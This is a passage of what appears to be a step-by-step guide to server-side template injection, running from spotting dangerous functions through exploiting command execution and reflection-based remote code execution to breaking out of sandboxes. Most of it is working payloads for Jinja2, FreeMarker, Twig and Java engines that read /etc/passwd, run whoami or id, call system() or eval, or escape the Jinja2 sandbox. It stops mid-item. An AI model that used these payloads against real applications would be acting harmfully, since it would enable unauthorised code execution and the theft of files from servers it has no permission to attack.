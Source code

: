 5. **Identify Dangerous Functions or Reflection Capabilities**:
   - Check for access to built-in functions or reflection:
     - **Jinja2**: `{{ ''.__class__.__mro__[1].__subclasses__()[59]('cat /etc/passwd',shell=True,stdout=-1).communicate() }}`
     - **FreeMarker**:
       ```freemarker
       ${"java.io.File".new("/etc/passwd").read()}
       ```
     - **Twig**:
       ```php
       {{ system('id') }}
       ```

---

## Phase 3: Exploitation Techniques
6. **Exploit Command Execution**:
   - Depending on the access, try executing OS commands:
     - **Jinja2**:
       ```python
       {{ ''.__class__.__mro__[1].__subclasses__()[59]('cat /etc/passwd',shell=True,stdout=-1).communicate() }}
       ```
     - **FreeMarker**:
       ```freemarker
       ${"".getClass().forName("java.lang.Runtime").getRuntime().exec("whoami")}
       ```
     - **Twig**:
       ```php
       {{ system('id') }}
       ```

7. **Leverage Reflection for RCE**:
   - Use reflection methods to call dangerous methods:
     - **Java-based Engines**:
       ```java
       ${"".getClass().forName("java.lang.Runtime").getMethod("exec", "java.lang.String").invoke("whoami")}
       ```
     - **Python-based Engines**: Use `__class__` and `__subclasses__` to access dangerous classes.

8. **Accessing Scripting Engines**:
   - **Java**: Use `javax.script.ScriptEngineManager` if accessible:
     ```freemarker
     ${"javax.script.ScriptEngineManager".new().getEngineByName("JavaScript").eval("java.lang.Runtime.getRuntime().exec('whoami')")}
     ```
   - **Groovy or Python**: Execute scripts if a scripting engine is exposed.

---

## Phase 4: Bypassing Sandboxing and Restrictions
9. **Break Out of Sandboxes**:
   - **Jinja2 Sandbox**: Access Python’s internal classes:
     ```python
     {{ ''.__class__.__mro__[1].__subclasses__()[133].__init__.__globals__['sys'].modules['os'].system('whoami') }}
     ```
   - **Twig**: If `constant` or `eval` functions are available, attempt to invoke PHP functions:
     ```php
     {{ eval('phpinfo()') }}
     ```
   - **Thymeleaf/Java**: Look for ways to access runtime classes:
     ```java